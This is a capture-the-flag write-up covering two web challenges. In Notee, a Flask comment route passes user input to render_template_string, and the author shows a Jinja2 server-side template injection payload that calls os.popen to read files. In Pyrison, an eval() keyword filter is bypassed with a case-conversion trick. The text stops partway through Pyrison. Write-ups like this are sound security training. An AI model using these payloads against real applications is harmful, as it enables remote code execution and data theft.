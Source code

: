 ---------------

### CTF: URCHINSEC AWARE CTF

--------------

![image](https://github.com/user-attachments/assets/21dcb944-92b5-4150-b742-71e140fe3c3c)

--------------

### CHALLENGES:

- Web:
  - Notee
  - Pyrison
- Securecode Reviewing
  - Heart
  - Redhand
  - Syringe

-----------------

### WEB:

-----------------

### Notee:

![image](https://github.com/user-attachments/assets/55fbe0a9-917e-4d43-8538-fae02180f615)

- The challenge's main vulnerability is `Server Side Template Injection` and the code detailed below shows the sink.

```python3
@app.route('/<username>/note/<id>/comment', methods=['GET'])
def get_comments_note(username, id):
    note = Note.query.filter_by(id=id).first()
    if note is not None:
        # check if username inserted matches the note
        if note.username == username:
            return render_template_string(note.comment)
        else:
            return abort(403)
    else:
        return abort(404)
```
- Route `/<username>/note/<id>/comment` takes in the `comment` key retrieved from the `note` variable and passes it to `render_template_string` which is vulnerable to the sink.The note's variable is from the `POST` parameters filled in the index page.The main point to pass the payload is the `comment` input box.

```python3
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        title = request.form.get('title')
        description = request.form.get('description')
        comment = request.form.get('comment')
        user_ip = request.remote_addr
```

### Exploitation

- I added the payload below to the comment box.

```python3
{{x.__init__.__globals__['__builtins__']['__import__']('os').popen('cat /*').read()}}
```
![image](https://github.com/user-attachments/assets/c3b06971-5cb1-4841-b4b6-a2004079a935)

- I retrieved the flag with `curl`.

![image](https://github.com/user-attachments/assets/2a322d84-6257-434c-9963-4c673f03a37b)

- Flag-:```urchinsec{W3_KEEP_NOTES_SAfe_f0r_ouR_S3cr3t_r3cipesss}```

---------------------

### Pyrison

![image](https://github.com/user-attachments/assets/c714af89-b059-493c-9800-b1a93da2633c)

- This challenge requires blackbox testing because no source code was provided but based on the author's choice of name.I deduced that the backend is python and values are passed to `eval()` in python but some special keywords are filtered.
- I tested `7*7` and got the value `49` which signifies that my deductions are accurate.

![image](https://github.com/user-attachments/assets/113835e1-cf4c-49d3-aa86-eba45b42b466)

- I also tried `import` to import modules but I noticed that the author blacklisted it.

![image](https://github.com/user-attachments/assets/a1216e31-aacf-4ed6-9e02-6fe2b84ce1af)

- I tried the next method by passing `eval("__IMPORT__".lower())` which worked because the filter is not case sensitive and picks only `import` in lowercase and not in uppercase.I passed the uppercase `import` to the `lower()` to convert it to lowercase which is evaluated later with the `eval()`.









